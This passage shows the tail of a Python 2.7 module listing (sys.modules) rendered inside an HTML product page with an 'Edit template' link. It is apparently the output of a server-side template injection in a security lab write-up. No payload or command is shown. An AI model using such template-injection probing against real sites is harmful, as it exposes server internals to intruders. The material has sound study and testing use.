 'logging.config': <module 'logging.config' from '/usr/lib/python2.7/logging/config.pyc'>,
 'logging.errno': None,
 'logging.handlers': <module 'logging.handlers' from '/usr/lib/python2.7/logging/handlers.pyc'>,
 'logging.io': None,
 'logging.logging': None,
 'logging.os': None,
 'logging.re': None,
 'logging.socket': None,
 'logging.stat': None,
 'logging.struct': None,
 'logging.sys': None,
 'logging.thread': None,
 'logging.threading': None,
 'logging.time': None,
 'logging.traceback': None,
 'logging.types': None,
 'logging.warnings': None,
 'logging.weakref': None,
 'markupbase': <module 'markupbase' from '/usr/lib/python2.7/markupbase.pyc'>,
 'markupsafe': <module 'markupsafe' from '/usr/local/lib/python2.7/dist-packages/markupsafe/__init__.pyc'>,
 'markupsafe._compat': <module 'markupsafe._compat' from '/usr/local/lib/python2.7/dist-packages/markupsafe/_compat.pyc'>,
 'markupsafe._speedups': <module 'markupsafe._speedups' from '/usr/local/lib/python2.7/dist-packages/markupsafe/_speedups.so'>,
 'markupsafe.collections': None,
 'markupsafe.re': None,
 'markupsafe.string': None,
 'markupsafe.sys': None,
 'marshal': <module 'marshal' (built-in)>,
 'math': <module 'math' (built-in)>,
 'mimetools': <module 'mimetools' from '/usr/lib/python2.7/mimetools.pyc'>,
 'mimetypes': <module 'mimetypes' from '/usr/lib/python2.7/mimetypes.pyc'>,
 'numbers': <module 'numbers' from '/usr/lib/python2.7/numbers.pyc'>,
 'opcode': <module 'opcode' from '/usr/lib/python2.7/opcode.pyc'>,
 'operator': <module 'operator' (built-in)>,
 'os': <module 'os' from '/usr/lib/python2.7/os.pyc'>,
 'os.path': <module 'posixpath' from '/usr/lib/python2.7/posixpath.pyc'>,
 'pickle': <module 'pickle' from '/usr/lib/python2.7/pickle.pyc'>,
 'pkgutil': <module 'pkgutil' from '/usr/lib/python2.7/pkgutil.pyc'>,
 'posix': <module 'posix' (built-in)>,
 'posixpath': <module 'posixpath' from '/usr/lib/python2.7/posixpath.pyc'>,
 'pprint': <module 'pprint' from '/usr/lib/python2.7/pprint.pyc'>,
 'pwd': <module 'pwd' (built-in)>,
 'pytz': <module 'pytz' from '/usr/local/lib/python2.7/dist-packages/pytz/__init__.pyc'>,
 'pytz.UserDict': None,
 'pytz.bisect': None,
 'pytz.collections': None,
 'pytz.datetime': None,
 'pytz.exceptions': <module 'pytz.exceptions' from '/usr/local/lib/python2.7/dist-packages/pytz/exceptions.pyc'>,
 'pytz.lazy': <module 'pytz.lazy' from '/usr/local/lib/python2.7/dist-packages/pytz/lazy.pyc'>,
 'pytz.os': None,
 'pytz.pytz': None,
 'pytz.struct': None,
 'pytz.sys': None,
 'pytz.threading': None,
 'pytz.tzfile': <module 'pytz.tzfile' from '/usr/local/lib/python2.7/dist-packages/pytz/tzfile.pyc'>,
 'pytz.tzinfo': <module 'pytz.tzinfo' from '/usr/local/lib/python2.7/dist-packages/pytz/tzinfo.pyc'>,
 'quopri': <module 'quopri' from '/usr/lib/python2.7/quopri.pyc'>,
 'random': <module 'random' from '/usr/lib/python2.7/random.pyc'>,
 're': <module 're' from '/usr/lib/python2.7/re.pyc'>,
 'rfc822': <module 'rfc822' from '/usr/lib/python2.7/rfc822.pyc'>,
 'select': <module 'select' (built-in)>,
 'shutil': <module 'shutil' from '/usr/lib/python2.7/shutil.pyc'>,
 'signal': <module 'signal' (built-in)>,
 'site': <module 'site' from '/usr/lib/python2.7/site.pyc'>,
 'sitecustomize': <module 'sitecustomize' from '/usr/lib/python2.7/sitecustomize.pyc'>,
 'socket': <module 'socket' from '/usr/lib/python2.7/socket.pyc'>,
 'sre_compile': <module 'sre_compile' from '/usr/lib/python2.7/sre_compile.pyc'>,
 'sre_constants': <module 'sre_constants' from '/usr/lib/python2.7/sre_constants.pyc'>,
 'sre_parse': <module 'sre_parse' from '/usr/lib/python2.7/sre_parse.pyc'>,
 'ssl': <module 'ssl' from '/usr/lib/python2.7/ssl.pyc'>,
 'stat': <module 'stat' from '/usr/lib/python2.7/stat.pyc'>,
 'string': <module 'string' from '/usr/lib/python2.7/string.pyc'>,
 'strop': <module 'strop' (built-in)>,
 'struct': <module 'struct' from '/usr/lib/python2.7/struct.pyc'>,
 'subprocess': <module 'subprocess' from '/usr/lib/python2.7/subprocess.pyc'>,
 'sys': <module 'sys' (built-in)>,
 'sysconfig': <module 'sysconfig' from '/usr/lib/python2.7/sysconfig.pyc'>,
 'tempfile': <module 'tempfile' from '/usr/lib/python2.7/tempfile.pyc'>,
 'termios': <module 'termios' from '/usr/lib/python2.7/lib-dynload/termios.x86_64-linux-gnu.so'>,
 'textwrap': <module 'textwrap' from '/usr/lib/python2.7/textwrap.pyc'>,
 'thread': <module 'thread' (built-in)>,
 'threading': <module 'threading' from '/usr/lib/python2.7/threading.pyc'>,
 'time': <module 'time' (built-in)>,
 'token': <module 'token' from '/usr/lib/python2.7/token.pyc'>,
 'tokenize': <module 'tokenize' from '/usr/lib/python2.7/tokenize.pyc'>,
 'traceback': <module 'traceback' from '/usr/lib/python2.7/traceback.pyc'>,
 'types': <module 'types' from '/usr/lib/python2.7/types.pyc'>,
 'unicodedata': <module 'unicodedata' (built-in)>,
 'urllib': <module 'urllib' from '/usr/lib/python2.7/urllib.pyc'>,
 'urlparse': <module 'urlparse' from '/usr/lib/python2.7/urlparse.pyc'>,
 'uu': <module 'uu' from '/usr/lib/python2.7/uu.pyc'>,
 'uuid': <module 'uuid' from '/usr/lib/python2.7/uuid.pyc'>,
 'warnings': <module 'warnings' from '/usr/lib/python2.7/warnings.pyc'>,
 'weakref': <module 'weakref' from '/usr/lib/python2.7/weakref.pyc'>,
 'zipimport': <module 'zipimport' (built-in)>,
 'zlib': <module 'zlib' (built-in)>}

                        <a class=button href=/product/template?productId=1>Edit template</a>
                        <div class="is-linkback">
                            <a href="/">Return to list</a>
                        </div>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```


